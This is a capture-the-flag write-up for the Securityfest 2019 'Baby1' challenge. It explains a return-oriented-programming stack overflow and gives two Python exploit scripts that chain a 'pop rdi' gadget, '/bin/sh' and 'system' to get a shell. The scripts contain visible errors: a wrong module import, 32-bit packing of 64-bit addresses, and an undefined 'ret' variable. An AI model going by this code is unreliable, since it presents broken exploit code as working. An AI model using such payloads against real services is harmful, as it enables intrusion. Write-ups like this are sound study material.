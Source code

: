 # Securityfest 2019 "Baby1"

Writeup by Ben Taylor

## Solution

It's given that this problem is a [return oriented programming](https://ketansingh.net/Introduction-to-Return-Oriented-Programming-ROP/) problem. In other words, way out of my web & crypto bubble of comfort. Let's dig in.

As with any problem where we are given an executable, the first thing I usually recommend is to quickly look through all of the strings. On Linux and macOS, you can do this by using [`strings`](https://linux.die.net/man/1/strings). On Windows, first uninstall windows, then install linux, and see the previous sentence. While it's not as easy as just plucking out a flag from the strings, we do see a `"/bin/sh"` string, which makes me think that the problem will be similar to BabyROP from Harekaze's 2019 CTF.

Since this is an ROP problem, it would be smart to find a few ROP gadgets using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). We find a `pop rdi; ret` gadget at `0x00400793`. As we'll see later, we'll also need `ret` at `0x0040053e`.

After looking over the strings and grabbing the ROP gadgets, we can decompile and disassemble the binary using [Ghidra](https://www.ghidra-sre.org/). If you've never used Ghidra before, it can be a little intimidating, but it's a really powerful tool for reverse engineering and ROP problems. We find `system` at `0x00400560` and `"/bin/sh"` at `0x400286`. Finally, we see that our string is at Stack[-0x18], which means we need to feed it 24 characters of garbage to get to where we need to on the stack.

So our payload should look something like "A" * 24 + pop_gadget + shell + system. Using [PwnTools](http://docs.pwntools.com/en/stable/) and Python, we get the following program:

``` Python
from pwntools import *

shell      = p32(0x00400286);
system     = p32(0x00400560);
pop_gadget = p32(0x00400793);

payload = "A" * 24 + pop_gadget + shell + system;

conn = remote('127.0.0.1', 0000) # ip & port redacted
conn.send(payload);
conn.interactive();
```

However, running this program results in a seg fault. This is because Ubuntu's libc uses [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE), so our payload is misaligned. This is where our extra `ret` is useful. By putting `ret` right after our 24 characters of garbage, we align the payload and get the flag. Here's the revised program:

``` Python
from pwntools import *

shell      = p32(0x00400286);
system     = p32(0x00400560);
pop_gadget = p32(0x00400793);
ret_gadget = p32(0x0040053e);

payload = "A" * 24 + ret + pop_gadget + shell + system;

conn = remote('127.0.0.1', 0000) # ip & port redacted
conn.send(payload);
conn.interactive();
```

This gives us a shell where we can easily find the flag.

Flag: `sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}`
